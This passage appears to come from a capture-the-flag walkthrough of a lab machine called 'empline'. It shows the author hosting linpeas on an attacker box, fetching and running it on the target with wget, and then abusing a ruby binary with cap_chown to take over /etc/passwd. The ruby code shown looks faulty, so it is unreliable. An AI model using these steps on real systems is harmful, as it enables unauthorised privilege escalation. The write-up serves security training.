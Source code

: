 On attacker's machine, start a http server in the same directory that linpeas is stored

> ┌──(root㉿kali)-[/home/…/Desktop/THM/practice/linpeas]
> └─# python3 -m http.server 4444
> Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...

And on the empline machine:

> george@empline:~$ wget http://10.18.42.194:4444/linpeas.sh
> 
> --2023-05-09 11:25:44--  http://10.18.42.194:4444/linpeas.sh
> 
> Connecting to 10.18.42.194:4444... connected.
> 
> HTTP request sent, awaiting response... 200 OK
> 
> Length: 830030 (811K) [text/x-sh]
> 
> Saving to: ‘linpeas.sh’
> 
> linpeas.sh          100%[===================>] 810.58K   501KB/s    in 1.6s    
> 
> 2023-05-09 11:25:46 (501 KB/s) - ‘linpeas.sh’ saved [830030/830030]
> 
> george@empline:~$ chmod +x linpeas.sh 
> 
> george@empline:~$ ./linpeas.sh


Linpeas discovered /usr/local/bin/ruby = cap_chown+ep. After doing some research I came across this link: https://ruby-doc.org/stdlib-2.4.1/libdoc/fileutils/rdoc/FileUtils.html.

Chown changes owner and group of the named files!

Let's check our user id:

> george@empline:~$ id
>
>uid=1002(george) gid=1002(george) groups=1002(george)
>
>george@empline:~$ 


Lets create a new ruby file:

> nano exploit.rb

We'll write some code to change the file permissions of /etc/passwd using our ID:1002:

> File = File.new( "/etc/passwd", "r" )
>
> File.chown(1002, 1002)

Now run the ruby file:

> ruby exploit.rb 

Check our permissions on /etc/passwd:
